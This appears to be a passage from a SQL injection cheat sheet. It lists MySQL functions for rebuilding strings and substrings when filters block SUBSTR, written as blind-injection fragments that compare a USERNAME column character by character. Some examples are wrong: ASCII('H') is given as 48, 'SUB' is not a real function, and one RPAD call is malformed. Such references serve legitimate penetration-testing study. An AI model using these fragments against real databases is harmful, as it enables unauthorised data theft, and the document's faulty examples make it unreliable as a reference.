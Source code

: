 The following are useful alternatives if functions are filtered/blocked.
## Building Strings
### UNHEX, HEX, CHAR, ASCII, ORD, etc...
Each DBMS provides its functions for doing this. In MySQL, the `UNHEX` is useful for translating hexadecimal numbers to string:
```sql
... SUBSTR(USERNAME,1,1)=UNHEX(48)
... SUBSTR(USERNAME,1,2)=UNHEX(4845)
... SUBSTR(USERNAME,1,5)=UNHEX('48454C4C4F')
... SUBSTR(USERNAME,1,5)=0x48454C4C4F
```

Furthermore, the `HEX` function is useful to convert to hexadecimal:
```sql
... HEX(SUBSTR(USERNAME,1,1))=48
... HEX(SUBSTR(USERNAME,1,2))=4845
... HEX(SUBSTR(USERNAME,1,5))='48454C4C4F'
```

We can also use the `CHAR` function as seen below:
```sql
... SUBSTR(USERNAME,1,1)=CHAR(72)
... SUBSTR(USERNAME,1,2)=CHAR(72,69)
... SUBSTR(USERNAME,1,2)=CONCAT(CHAR(72),CHAR(69))
```

There is also a set of twin functions: `ASCII` and `ORD`. For example:
```sql
... ASCII(SUBSTR(USERNAME,1,1))=48
... ORD(SUBSTR(USERNAME,1,1))=48
```

In MySQL, the `CONV` function is a method for returning the string representation of a number from two bases. For example:
```sql
CONV(10,10,36) // returns 'a'
CONV(11,10,36) // returns 'b'
```
>Note: The highest base we can use is 36. We also cannot use it for Unicode characters.

We can also mix the results with upper and lower functions as seen below:
```sql
LOWER(CONV(10,10,36)) // 'a'
LCASE(CONV(10,10,36)) // 'a'
UPPER(CONV(10,10,36)) // 'A'
UCASE(CONV(10,10,36)) // 'A'
```
### Brute-force Strings
If we cannot build a string, we can try to locate either a segment or an entire string using functions that return the position of the first occurrence of substrings. For example:
```sql
IF(LOCATE('H',SUBSTR(USERNAME,1,1)),1,0)
```
Alternatively, we can also use `INSTR` and `POSITION`.
### Building Substring
If `SUBSTR` is filtered or blocked, we can use the following alternatives.

The first alternative is `MID`, this is nothing more than synonym of `SUBSTRING`, which is also a synonym of `SUBSTR`. For example:
```sql
SUBSTRING('HELLO' FROM 1 FOR 1)
SUB('HELLO' FROM 1 FOR 1)
```

Alternatively, we can use the `LEFT` and `RIGHT` functions, which are useful for retrieving the left or right most specified character. For example:
```SQL
LEFT('HELLO', 2) // returns 'HE'
RIGHT('HELLO', 2) // returns 'LO'
```

Padding functions like `RPAD` and `LPAD` are also other alternatives. For example:
```sql
LPAD('HELLO', 6, '?') // returns '?HELLO'
RPAD('HELLO', 1, ?) // returns 'H'
```